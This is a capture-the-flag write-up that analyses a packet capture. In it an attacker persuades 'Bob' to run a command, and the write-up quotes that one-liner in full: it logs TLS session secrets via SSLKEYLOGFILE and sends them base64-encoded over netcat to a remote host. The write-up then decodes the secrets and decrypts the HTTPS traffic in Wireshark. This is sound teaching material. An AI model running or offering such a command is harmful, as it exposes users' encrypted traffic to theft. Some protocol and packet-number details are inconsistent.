





# PCAP Pt.2

## Introduction

In this second part of the network analysis challenge, our focus shifts to Bob. We are tasked with retrieving his flag from the same packet capture file used previously.

The challenge description provides a crucial hint: "Bob is not careful." While Alice communicated openly on IRC, Bob appears to be using a more secure method involving encrypted communication. Normally, protocols like TLS encrypt traffic to ensure confidentiality, preventing eavesdroppers like Eve or Mallory from reading the data.

However, the mention of Mallory — the archetype of a malicious active attacker — combined with Bob's "carelessness" implies a vulnerability in how this secure channel was established or managed. Instead of breaking the encryption algorithm itself, we must look for mistakes in Bob's operational security that might compromise the confidentiality of his communications.

Our goal is to investigate Bob's network activity, identify any anomalies or leaks, and exploit them to recover the flag.

## Tracking the IRC Chat

Just like with Alice's flag in part 1, the idea is to stay inside the IRC packets and watch for `PRIVMSG` messages (normal chat messages) instead of trying to interpret unrelated traffic.

If you are new to this and "IRC + Follow TCP Stream" sounds like black magic, I highly recommend reading the first part of this writeup (pcap pt1), which serves as a warm-up tutorial for these concepts.



In the image, the packet list already shows the start of the relevant conversation on `#flagshare`, where Mallory (`172.20.0.3`) messages the channel ("hello bob!") and Bob is on the same IRC server (`172.20.0.4`) with IP `172.20.0.5` (later we realize that is Bob with that IP).

### Mallory's Command (Packet 119)

Later in the conversation (Packet 119), Mallory tells Bob to run the following command:

```
export SSLKEYLOGFILE=./key.log;curl -s https://flagshare.sas.hackthe.space;cat ./key.log | base64 | nc noise 666; rm ./key.log
```

Here is a breakdown of what each piece does:

- `export SSLKEYLOGFILE=./key.log`: Tells compatible TLS clients (like `curl`) to write TLS session secrets to the file `key.log`.
- `curl -s https://flagshare.sas.hackthe.space`: Makes an HTTPS request to the server, while `-s` ("silent") reduces output noise.
- `cat ./key.log | base64`: Reads that log file and encodes it into Base64 so it's easy to transmit as plain text.
- `nc noise 666`: Sends the Base64 text to a host named `noise` on TCP port 666 using netcat. In this context, `noise` is the hostname (or could be an IP address that resolves to "noise" in Bob's local network).
- `rm ./key.log`: Deletes the local log afterward, attempting to clean up traces.

### Bob Runs It

After Mallory posts the command, Bob proceeds to run it as instructed. This becomes the key "careless Bob" moment in this challenge.

## Extracting the Leaked Keys

Now that we know Bob executed Mallory's command, we need to locate the traffic that resulted from it. Specifically, we are looking for the data that Bob sent to port 666 (the netcat command: `nc noise 666`).

### Finding the Key Transmission

To isolate this traffic, we apply a display filter in Wireshark:

```
tcp.port == 666
```




As shown in the provided picture, this reveals a TCP stream between Bob (`172.20.0.5`) and another machine (`1a:79:df:a2:1b:66`) on port 666. The packet we are interested in is Packet 166, which contains 1054 bytes of data — this is the payload Bob sent.

In the packet details pane (bottom section of the screenshot), we can see the raw data transmitted. This is the Base64-encoded content of Bob's `key.log` file, which contains the TLS session secrets generated when he connected to the flag server.

### Decoding the Payload

To extract the usable key material, we must:

1. Follow the TCP Stream on Packet 166 to view the complete transmitted data.
2. Copy the Base64 string from the stream window.
3. Decode it using a Base64 decoder (such as [Base64Decode.org](https://www.base64decode.org/)).

After decoding, we obtain the following plaintext:

```
SERVER_HANDSHAKE_TRAFFIC_SECRET 1c5bd669c29644f7f5014e86b26214ba46472ca24c746c1ebad408e2067dd502 1fc2b6501c7023f82dc9f98266cf4975e2e32fd201a65f5d4165232312ec40df
EXPORTER_SECRET 1c5bd669c29644f7f5014e86b26214ba46472ca24c746c1ebad408e2067dd502 db044dd1c11cea840240fc2fe4581d99c4e37a0391caf89572e13e6336bf812a
SERVER_TRAFFIC_SECRET_0 1c5bd669c29644f7f5014e86b26214ba46472ca24c746c1ebad408e2067dd502 4607b6d1e1f3da4b73fbc5c446b1194c66db02070b16750169cee1d2db5fc55c
CLIENT_HANDSHAKE_TRAFFIC_SECRET 1c5bd669c29644f7f5014e86b26214ba46472ca24c746c1ebad408e2067dd502 4c7845341f8669be8483491c68b0119dc43d381ffe53b6db9cf60d5f1351a7fc
CLIENT_TRAFFIC_SECRET_0 1c5bd669c29644f7f5014e86b26214ba46472ca24c746c1ebad408e2067dd502 9bf12a6417b537b44f028feb7d5ed213d698338de328f6b1bead01a98aa52c47
```

### Understanding the Key Log Format

This file follows the NSS Key Log Format, which Wireshark uses for TLS decryption. Each line represents a secret derived during the TLS 1.3 handshake and follows this structure:

```
<Label> <SHA-256 Hash of ClientHello> <Secret>
```

The secrets included in this key log are:

- **CLIENT_HANDSHAKE_TRAFFIC_SECRET:** The secret used to protect the client's handshake messages during the TLS 1.3 key exchange. This is derived from the shared secret created via the Diffie-Hellman key exchange.
- **SERVER_HANDSHAKE_TRAFFIC_SECRET:** The secret used to protect the server's handshake messages, including the server's certificate and key verification.
- **CLIENT_TRAFFIC_SECRET_0:** The secret used to encrypt application data sent by the client (Bob) after the handshake completes. This is used for all HTTP/S requests.
- **SERVER_TRAFFIC_SECRET_0:** The secret used to encrypt application data sent by the server. This protects the server's responses.
- **EXPORTER_SECRET:** Used for deriving additional keying material when needed by specific protocols or applications.

### Forward Secrecy and Ephemeral Keys

In TLS 1.3, these secrets are derived using ephemeral Diffie-Hellman key exchange, meaning the private key material used to compute them is discarded immediately after the handshake completes. Normally, an attacker cannot decrypt past TLS traffic because they cannot recover the ephemeral private keys — this property is called forward secrecy (or perfect forward secrecy).

However, the presence of `SSLKEYLOGFILE` breaks this security guarantee. When Bob set this environment variable, `curl` was forced to log the derived secrets before they were discarded, allowing Mallory to capture them over the network and later decrypt Bob's HTTPS traffic retroactively.

## Loading Keys into Wireshark for Decryption

With these secrets, Wireshark can decrypt the encrypted application data. Wireshark decrypts TLS traffic by:

1. Matching the CLIENT_HELLO hash (the middle value in each line) to the ClientHello message in the captured traffic.
2. Loading the corresponding secret to derive decryption keys.
3. Decrypting all subsequent encrypted records using those keys.

### Loading the Key Log into Wireshark

Those decoded lines are exactly what gets stored in a TLS key log file (often called `key.log`), and Wireshark can use that file to decrypt the TLS "Application Data" packets.

**Step 1: Create the Key Log File**

Copy the decoded plaintext secrets (the lines like `CLIENT_HANDSHAKE_TRAFFIC_SECRET`, `CLIENT_TRAFFIC_SECRET_0`, etc.) into a new text file and save it as `key.log`. Keep the formatting exactly as shown — one secret per line with no extra characters, because Wireshark expects the NSS Key Log Format to map TLS connections to secrets.

**Step 2: Configure Wireshark to Use the Key Log**

1. Open Wireshark → Edit → Preferences → Protocols → TLS.
2. Set (Pre)-Master-Secret log filename to the path of your `key.log` file and click Apply/OK.
3. Wireshark will now decrypt TLS records for sessions that match the secrets in the key log.

**Step 3: Locate the Encrypted Traffic (Before Decryption)**



Before loading the key log, the HTTPS traffic between Bob (`172.20.0.5`) and the server (`128.130.122.102`) appears as:

- TLSv1.3 Application Data packets (frames 144, 145, 147, etc.)
- HTTP2 protocol entries showing only encrypted frames like `WINDOW_UPDATE[0]`, `HEADERS[1]`, `SETTINGS[0]`

At this stage, Wireshark cannot decrypt the content because it lacks the session secrets. The actual HTTP requests and responses remain hidden inside the "Application Data" payloads.

**Step 4: View the Decrypted Traffic (After Decryption)**



After loading the key log file and reloading the capture, Wireshark successfully decrypts the TLS stream. As shown in the provided image (Frame 179), we can now see:

- HTTP2 protocol dissection revealing the actual IRC message.
- Plaintext content: `bob!b@172.20.0.5 PRIVMSG #flagshare :it showed me the flag but I'm not gonna share it`
- The response data is now fully readable in the packet details pane (right side), showing the complete IRC conversation.

The key difference: the previous picture shows only encrypted "Application Data," while this one shows the same traffic fully decrypted and parsed as HTTP2/IRC protocol, revealing Bob's messages in cleartext.


To extract the flag or any other sensitive data, simply:

1. Right-click on the decrypted packet 156 → Follow → HTTP/2 Stream.
2. Read the plaintext data.
3. Enjoy the view!

## References

- Network Security 2 Lecture: "Practical TLS Wireshark Decryption" slides 10-12, discussing TLS 1.3 handshake flow, the roles of client and server handshake traffic secrets, the distinction between ephemeral and forward secrecy, and Wireshark's key log format for TLS decryption.
- Network Security 2 Lecture, Slide 10: "Practical TLS Wireshark 4.6.2" — Shows how TLS traffic appears as encrypted "Application Data" when Wireshark has no access to keys.
- Network Security 2 Lecture, Slide 11: "Practical TLS Wireshark Decryption" — Demonstrates the exact Wireshark configuration path (Edit → Preferences → Protocols → TLS → Pre-Master Secret log filename) for loading key log files.
- Network Security 2 Lecture, Slide 12: "Server private key not enough to decrypt!" — Explains why ephemeral keys and forward secrecy require key log secrets instead of just the server's private key.
